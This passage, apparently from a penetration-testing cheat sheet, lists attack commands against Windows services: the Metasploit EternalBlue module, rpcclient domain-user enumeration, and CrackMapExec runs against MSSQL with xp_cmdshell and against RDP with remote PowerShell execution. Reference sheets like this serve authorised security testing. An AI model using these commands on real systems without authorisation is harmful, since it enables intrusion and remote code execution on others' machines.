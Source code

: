 - **EternalBlue Exploit (Metasploit)**:
    
    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS <target_ip>
    run
    ```
    

## 11.3 RPC 

#### 11.3.1 RPC (Remote Procedure Call) 

- **rpcclient**:
    
    ```bash
    rpcclient -U "<username>%<password>" <target_ip> -c "enumdomusers"
    ```
    

## 11.4 MSSQL 

#### 11.4.1 MSSQL Server 

- **SQLCMD (Linux)**:
    
    ```bash
    sqlcmd -S <target_ip> -U <username> -P <password>
    ```
    
- **CrackMapExec (CME)**:
    
    ```bash
    cme mssql <target_ip> -u <username> -p <password> --xp_cmdshell
    ```
    

## 11.5 RPD 

#### 11.5.1 RDP (Remote Desktop Protocol) 

- **RDP Client (Linux)**:
    
    ```bash
    rdesktop -u <username> -p <password> <target_ip>
    ```
    
- **CrackMapExec (CME)**:
    
    ```bash
    cme rdp <target_ip> -u <username> -p <password> --exec "powershell.exe"
    ```
    

## 11.6 Kerberos 
